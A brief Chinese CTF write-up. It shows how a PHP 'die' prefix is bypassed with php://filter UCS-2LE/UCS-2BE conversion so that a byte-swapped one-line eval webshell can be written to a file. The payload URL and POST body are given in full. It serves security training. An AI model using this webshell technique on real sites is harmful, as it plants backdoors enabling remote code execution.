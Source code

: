 考察点：绕过死亡die

题目中过滤了很多协议和编码方式，但是除了我们常用的[base64](https://so.csdn.net/so/search?q=base64&spm=1001.2101.3001.7020)和rot13还是有很多方法可以绕过die的

[支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

[php://filter的各种过滤器](https://blog.csdn.net/qq_44657899/article/details/109300335)

可以使用 `UCS-2LE UCS-2BE`，将字符两位两位进行交换，可以在本地进行测试

![image-20230725151719560](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230725151719560.png)

payload:

```
?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=5.php
```

post:

```
post:contents=?<hp pvela$(P_SO[T]1;)>?
```

![image-20230725153523148](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230725153523148.png)

然后读取flag

![image-20230725153547183](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230725153547183.png)

（一开始把一句话木马写到flag.php里面把flag字符串覆盖掉了，到处早不到flag）QWQ.........

